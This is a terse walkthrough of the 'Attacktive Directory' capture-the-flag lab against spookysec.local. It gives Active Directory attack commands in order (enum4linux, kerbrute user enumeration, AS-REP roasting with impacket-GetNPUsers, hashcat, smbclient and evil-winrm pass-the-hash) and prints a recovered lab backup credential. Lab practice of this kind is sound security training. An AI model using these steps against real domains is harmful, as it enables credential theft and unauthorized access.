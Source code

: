 # Attacktive Directory

### Enumeration

```bash
enum4linux 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (8).png" alt=""><figcaption><p>scanning port 139/445</p></figcaption></figure>

kerbrute

```powershell
 ./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.176.12  userlist.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

impacket-GetNPUsers

```bash
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

hashcat

```
hashcat -m 18
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### smbclient

```
smbclient -L //10.10.176.12  -U "svc-admin"
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```bash
smb://ip/backup
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
backup@spookysec.local:backup2517860
{% endhint %}



<figure><img src="../../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>



```bash
evil-winrm -u <user> -H "hash" -i ip
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
